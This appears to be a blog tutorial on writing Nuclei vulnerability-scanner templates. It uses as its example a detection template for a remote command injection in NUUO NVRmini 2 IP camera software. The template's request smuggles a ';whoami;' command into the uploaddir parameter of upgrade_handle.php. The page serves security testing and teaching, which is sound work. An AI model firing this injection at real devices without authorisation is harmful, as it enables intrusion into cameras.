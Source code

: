 ```yaml
---
title: Development NUCLEI Template for Security Community!
published: true
---
```

## [](#header-3)What is Nuclei?

![](https://wallpaperaccess.com/full/199357.jpg)

Nuclei is used to send requests across targets based on a template leading to zero false positives and providing fast scanning on large number of hosts. Nuclei offers scanning for a variety of protocols including TCP, DNS, HTTP, File, etc. With powerful and flexible templating, all kinds of security checks can be modelled with Nuclei.

## [](#header-3)What is YAML? (redhat.com)

YAML is a data serialization language that is often used for writing configuration files. Depending on whom you ask, YAML stands for yet another markup language or YAML ain't markup language (a recursive acronym), which emphasizes that YAML is for data, not documents.


## [](#header-3)YAML Syntax

```js

# An employee record
name: Martin Devloper
job: Developer
skill: Elite
employed: True
foods:
   Apple
   Orange
   Strawberry
   Mango
languages:
  perl: Elite
  python: Elite
  pascal: Lame
education: |
  4 GCSEs
  3 A-Levels
  BSc in the Internet of Things

  ```


## [](#header-3)NUUO NVRMINI RCE 

The NUUO NVRMINI IP camera device provides a web application environment that allows users to manage the IP cameras. The related web application receives an input called uploaddir from the upgrade_handle.php file from the user. Input ';PAYLOAD;' When transmitted, it executes a system-level command. If the command is executed successfully, /upload_tmp_dir/ is displayed in the page source.

So, to detect this vulnerability, we will execute a command on the system and search for the word /upload_tmp_dir/ in HTTP Response.

Lets do request

```js
requests:
  - method: GET
    path:
      - "{{BaseURL}}/upgrade_handle.php?cmd=writeuploaddir&uploaddir=%27;whoami;%27"
```
Find matchs!
```js
matchers-condition: and
    matchers:
      - type: word
        words:
          - "/upload_tmp_dir/"
        part: body
```
All of them
```js
id: nuuo-nvrmini2-upgradehandlephp-rce

info:
  name: NUUO NVRmini 2 3.0.8 - Remote Code Execution
  author: 0x45d
  severity: critical
  tags: rce
  reference: |
    - https://www.exploit-db.com/exploits/45070
    - https://github.com/berkdsnr/NUUO-NVRMINI-RCE
    - https://packetstormsecurity.com/files/151573/NUUO-NVRmini-upgrade_handle.php-Remote-Command-Execution.html
requests:
  - method: GET
    path:
      - "{{BaseURL}}/upgrade_handle.php?cmd=writeuploaddir&uploaddir=%27;whoami;%27"

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "/upload_tmp_dir/"
        part: body

      - type: status
        status:
          - 200
```
## [](#header-3)References & Details

"url: https://www.exploit-db.com/exploits/45070"

"url: https://www.rapid7.com/db/modules/exploit/multi/http/nuuo_nvrmini_upgrade_rce/"

"url: https://github.com/projectdiscovery/nuclei/pull/399"

"url: https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/other/nuuo-nvrmini2-rce.yaml"

Follow me on twitter! @0x45d

